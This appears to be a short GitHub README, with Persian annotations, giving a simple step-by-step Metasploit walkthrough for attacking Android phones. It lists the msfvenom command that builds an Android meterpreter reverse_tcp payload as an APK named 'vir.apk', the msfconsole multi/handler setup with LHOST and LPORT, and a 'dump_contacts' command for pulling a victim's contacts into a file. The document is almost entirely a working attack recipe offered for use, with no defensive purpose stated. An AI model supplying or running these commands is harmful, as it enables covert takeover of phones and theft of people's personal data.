 # Android-MetaSploit-Sade

┌──(root㉿kali)-[~]   
  
1) msfvenom -p android/meterpreter/reverse_tcp LHOST=* LPORT=** -o /home/kali/Desktop/vir.apk

* = ifconfig      **=دلخواه

2) msfconsole


3) use exploit/multi/handler


4) set payload android/meterpreter/reverse_tcp


5) options


6) set LHOST *


7) set LPORT **


8) options   مجدد آپشنز رو بزنیم میبینیم که دو مورد بالا ست شدن


9) exploit


10) help


examplae : برای مخاطبین : dump_contacts -o /home/kali/Desktop/contact.txt

